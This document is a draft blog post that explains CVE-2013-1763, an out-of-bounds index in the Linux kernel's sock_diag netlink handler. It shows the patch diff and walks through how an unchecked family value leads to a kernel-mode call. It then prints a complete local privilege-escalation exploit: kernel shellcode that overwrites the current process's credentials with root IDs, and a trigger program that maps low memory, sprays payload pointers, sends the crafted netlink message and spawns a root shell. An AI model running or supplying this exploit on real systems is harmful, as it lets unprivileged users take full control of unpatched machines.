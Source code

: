 ```yaml
---
layout: post
title : "CVE-2013-1763"
tags : ["exploit", "security", "networking"]
draft : true
---
```


Userland can send a netlink message requesting `SOCK_DIAG_BY_FAMILY` with a family greater or equal then `AF_MAX` -- the array size of `sock_diag_handlers[]`. The current code does not test for this condition therefore is vulnerable to an out-of-bound access opening doors for a privilege escalation.

Vulnerability
--------------

```diff
diff --git a/net/core/sock_diag.c b/net/core/sock_diag.c
index 602cd63..750f44f 100644
--- a/net/core/sock_diag.c
+++ b/net/core/sock_diag.c
@@ -121,6 +121,9 @@ static int __sock_diag_rcv_msg(struct sk_buff *skb, struct nlmsghdr *nlh)
  if (nlmsg_len(nlh) < sizeof(*req))
    return -EINVAL;

+ if (req->sdiag_family >= AF_MAX)
+   return -EINVAL;
+
  hndl = sock_diag_lock_handler(req->sdiag_family);
  if (hndl == NULL)
    err = -ENOENT;
  else
    err = hndl->dump(skb, nlh); // hndl->dump executes !!
```


In `__sock_diag_rcv_msg` function, userland variable `req->sdiag_family` is passed uncheckly to `sock_diag_handler`, within which overflow and exploit happens.

```c
static const inline struct sock_diag_handler *sock_diag_lock_handler(int family)
{
  if (sock_diag_handlers[family] == NULL)
    request_module("net-pf-%d-proto-%d-type-%d", PF_NETLINK, NETLINK_SOCK_DIAG, family);

  mutex_lock(&sock_diag_table_mutex);
  return sock_diag_handlers[family];
}
```

Here the function returns a pointer `sock_diag_handlers + family`.

```c
struct sock_diag_handler {
  __u8 family;
  int (*dump)(struct sk_buff *skb, struct nlmsghdr *nlh);
};
hndl = sock_diag_lock_handler(req->sdiag_family);
hndl->dump(skb, nlh); //(sock_diag_handlers + family + 8) executes !!
```

All story told, here we find that finally `(sock_diag_handlers + family + 8)` executes in kernel mode.

Exploits
---------

1. Craft a piece of shell code.
2. Calcualte the value of `family` which points `sock_diag_handlers + family + 8` to the shell code.
3. Construct a package with large `family` and set it.
4. You got it.


Shell code
-----------

1. get `current` (pointer to the current process descriptor `task_struct`)
2. Manipulate `process credentials`

```c
static long ugid;
void patch_current() {
    int i,j,k;
    char *current = *(char**)(((long)&i) & (-8192));
    long kbase = ((long)current)>>36;

    for (i=0; i<4000; i+=4) {
        long *p = (void *)&current[i];
        int *t = (void*) p[0];
        if ((p[0] != p[1]) || ((p[0]>>36) != kbase)) continue;
        for (j=0; j<20; j++) {
            for (k = 0; k < 8; k++)
            if (((int*)&ugid)[k%2] != t[j+k])
            goto next;
            for (i = 0; i < 8; i++)
            t[j+i] = 0;
            for (i = 0; i < 10; i++)
            t[j+9+i] = -1;
            return;
next:;
        }
    }
}
```


Crafted a package
-----------------

```c
struct {
  struct nlmsghdr nlh;
  struct unix_diag_req r;
} req;

struct nlmsghdr {
  __u32   nlmsg_len;  /* Length of message including header */
  __u16   nlmsg_type; /* Message content */
  __u16   nlmsg_flags;  /* Additional flags */
  __u32   nlmsg_seq;  /* Sequence number */
  __u32   nlmsg_pid;  /* Sending process port ID */
};

struct unix_diag_req {
  __u8  sdiag_family;
  __u8  sdiag_protocol;
  __u16 pad;
  __u32 udiag_states;
  __u32 udiag_ino;
  __u32 udiag_show;
  __u32 udiag_cookie[2];
};
```

Trigger
---------

```c
int main()
{
  long u = getuid();
  long g = getgid();
  int i, f = socket(16,3,4);
  static int n[10] = {40,0x10014,0,0,45,-1};

  assert(mmap((void*)(1<<12), 1<<20, 3, 0x32, 0, 0)!=-1);

  setresuid(u,u,u); setresgid(g,g,g);
  ugid = (g<<32)|u;

  memcpy(1<<12, &patch_current, 1024);
  for (i = 0; i < (1<<17); i++) ((void**)(1<<12))[i] = &patch_current;
  send(f, n, sizeof(n), 0);
  setuid(0);
  return execl("/bin/bash", "-sh", 0);
}
```

Reference
----------

All credit goes to the authors of [this][1] and [this][2] exploits.

[1]: http://www.exploit-db.com/exploits/24746/
[2]: http://www.exploit-db.com/exploits/24555/

